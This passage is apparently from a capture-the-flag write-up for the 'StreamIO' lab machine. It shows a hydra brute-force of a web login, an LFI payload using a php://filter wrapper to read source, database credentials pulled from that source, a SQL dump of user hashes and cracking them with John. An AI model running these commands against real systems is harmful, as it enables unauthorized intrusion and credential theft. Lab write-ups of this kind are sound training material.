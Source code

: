 ❌ None of the credentials worked for SMB access.

### 5.2 Web Login Attempt

Used `hydra` to brute-force login on `streamio.htb`:

```bash
hydra -C valid_credentials streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```

✅ Logged in as `yoshihide`

### 5.3 LFI Exploitation

Found `/admin/?debug=` endpoint which is vulnerable to Local File Inclusion:

```text
/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

Decoded with `base64` and identified hardcoded DB credentials:

```
db_admin : B1@hx31234567890
```

---

## 6. MSSQL Database Enumeration

Logged into MSSQL using the extracted credentials via `sqlcmd`:

```bash
sqlcmd -U db_admin -P B1@hx31234567890 -S localhost -d streamio_backup
```

Enumerated users and their hashes from the backup database:

```sql
SELECT username, password FROM users;
```

Cracked with John:

```bash
john --format=Raw-MD5 -w:/usr/share/wordlists/rockyou.txt backup_credentials
```

✅ Found:

```
nikk37 : get_dem_girls2@yahoo.com
```

---

## 7. Remote Access via WinRM

Checked WinRM permissions:
